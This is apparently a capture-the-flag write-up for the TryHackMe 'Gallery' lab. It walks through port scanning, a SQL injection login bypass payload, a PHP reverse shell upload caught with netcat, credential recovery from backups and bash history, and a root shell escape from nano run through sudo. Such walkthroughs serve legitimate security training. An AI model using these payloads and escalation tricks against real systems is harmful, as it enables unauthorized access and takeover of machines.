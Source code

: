 ```yaml
---
layout: post
title: "TryHackMe: Gallery"
categories: TryHackMe
published: true
---
```


![banner](/assets/pictures/tryhackme/gallery-banner.avif)

Greetings h4xors! We will dive into a vulnerable gallery system. Let's take a look.

## Reconnaissance

> nmap  -sC  -p-  -sV  $IP  -oN  nmap.txt  --vv

* -sC: This is the switch for scanning common vuln using common script
* -p-: This is the switch to scan all possible opened ports of 65535
* -sV: This is the switch for scanning the running services 
* -oN: This is the switch to output the result in TXT format.
* --vv: Advance verbose

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B009C743CE4AC3BD45EDD72E8C3E7E57
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Simple Image Gallery System

```
Based on the nmap scan result, there are 2 opened ports which are the same services, http. Now let's take a look one by one. Port 80 seems to have a default apache web page. However, upon enumerating the website using gobuster, I found a directory called `gallery`.

```bash
──(root㉿kali)-[~/THM/Gallery]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.53.141/      
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.53.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/08/12 11:16:52 Starting gobuster in directory enumeration mode
===============================================================
/gallery              (Status: 301) [Size: 314] [--> http://10.10.53.141/gallery/]
Progress: 7167 / 220561 (3.25%)
```

![cms](/assets/pictures/tryhackme/gallery1.png)

I quickly check for any SQL injection vulnerabily on this login page and successfuly bypass the login panel using this payload `"' or '1'='1'-- -"`. Upon checking the admin dashboard, I found the upload function that might be vulnerable to file upload restriction vulnerabilities. p/s: Look at the url parameter, it might be vulnerable to sqli too! 

![ss](/assets/pictures/tryhackme/gallery2.png)

---

## Gaining access

Now let's upload a reverse shell and setup netcat listener. Yup! It really vulnerable where I can upload a php reverse shell without changing a file extension to .jpg. The server did not filter uploaded files at all!

```bash
┌──(root㉿kali)-[~/THM/Gallery]
└─# nc -nlvp 9001                                     
listening on [any] 9001 ...
connect to [10.9.58.250] from (UNKNOWN) [10.10.53.141] 58084
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:40:30 up 31 min,  0 users,  load average: 0.00, 0.00, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami; id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
I enumerated the machine to find for any juicy foothold and turns out Mike user have a backup directory in /var/backups/mike_home_backup/. There is a text file called `accounts.tx` that stored credentials.

```bash
$ cat documents/accounts.txt
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```
However, none of these passwords are true. It seems like I've jumped into a rabbit hole. Nevertheless, I found Mike's password inside the bash history file and successfully logged in as Mike!

---
## User's flag

```bash
www-data@gallery:/var/backups/mike_home_backup$ su mike
su mike
Password: b3stpassw0rdbr0xx

mike@gallery:/var/backups/mike_home_backup$ cd ~/
cd ~/
mike@gallery:~$ cat user.txt
cat user.txt
THM{afxxxxxxxxxxxxxxxx}
mike@gallery:~$ 
```
---
## Privilege escalation

```
User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```

Mike can run sudo on rootkit.sh. Now let's examine the content of this file.

```sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

As you can see, the script will prompt and ask for three different inputs. If you take a look at the read case, the script will execute nano if we send `read` input. We can take advantage of this case by executing root shell inside of nano since the script can be run as root! 

Type CTRL + R and CTRL + X and execute this command in nano;
> reset; sh 1>&0 2>&0

```bash
# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root
# cd /root; ls
report.txt  root.txt
# cat root.txt
THM{baxxxxxxxxxxxxxxxxxxxxx}
```

We got r00t!

---